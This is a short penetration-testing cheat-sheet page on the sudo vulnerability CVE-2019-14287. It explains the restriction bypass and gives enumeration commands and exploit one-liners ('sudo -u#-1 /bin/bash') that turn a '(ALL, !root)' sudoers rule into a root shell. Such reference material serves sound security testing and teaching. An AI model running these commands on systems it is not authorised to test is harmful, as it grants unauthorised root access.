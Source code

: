 ```yaml
---
description: CVE-2019-14287
---
```


# Bypass of User Restrictions

## Theory

The sudo vulnerability **CVE-2019-14287** is a security policy bypass issue that provides a user or a program the ability to execute commands as root on a Linux system when the "sudoers configuration" explicitly disallows the root access. Exploiting the vulnerability requires the user to have sudo privileges that allow them to run commands with an arbitrary user ID, except root.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To exploit, sudo version must be vulnerable (sudo < **1.8.28**)

```bash
$ sudo -V
Sudo version 1.8.27
```

You must be able to run a command with sudo with an arbitrary user ID, except root

```bash
$ sudo -l
[...]
(ALL, !root) ALL
```
{% endtab %}

{% tab title="Exploit" %}
If you have a full TTY, you can exploit it like this

```bash
sudo -u#-1 /bin/bash
sudo -u#4294967295 id
```
{% endtab %}
{% endtabs %}
